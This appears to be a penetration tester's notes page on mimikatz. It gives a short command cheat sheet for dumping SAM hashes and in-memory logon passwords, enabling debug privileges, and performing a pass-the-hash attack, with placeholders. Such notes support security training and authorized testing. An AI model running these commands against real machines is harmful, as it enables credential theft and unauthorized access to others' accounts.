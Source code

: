 ```yaml
---
title: mimikatz
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - windows
  - dump hashes
  - passwords
  - pass the hash attack
---
```


# mimikatz

**`mimikatz`** is a tool made in `C` .

It's now well known to extract plaintexts passwords, hash, PIN code and kerberos tickets from memory. **`mimikatz`** can also perform pass-the-hash, pass-the-ticket or build _Golden tickets_.

Kiwi module in [a meterpreter in metasploit](metasploit.md) is an adaptation of mimikatz.

## No installation, portable

Download from github repo: [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz).


## Basic usage


```bash
# Impersonate as NT Authority/SYSTEM (having permissions for it).
token::elevate

# List users and hashes of the machine
lsadump::sam

# Enable debug mode for our user
privilege::debug

# List users logged in the machine and still in memory
sekurlsa::logonPasswords full

# Pass The Hash attack in windows:
# 1. Run mimikatz
mimikatz.exe privilege::debug "sekurlsa::pth /user:<username> /rc4:<NTLM hash> /domain:<DOMAIN> /run:<Command>" exit
# sekurlsa::pth is a module that allows us to perform a Pass the Hash attack by starting a process using the hash of the user's password
# /run:<Command>: For example /run:cmd.exe
# 2. After that, we canuse cmd.exe to execute commands in the user's context. 

```

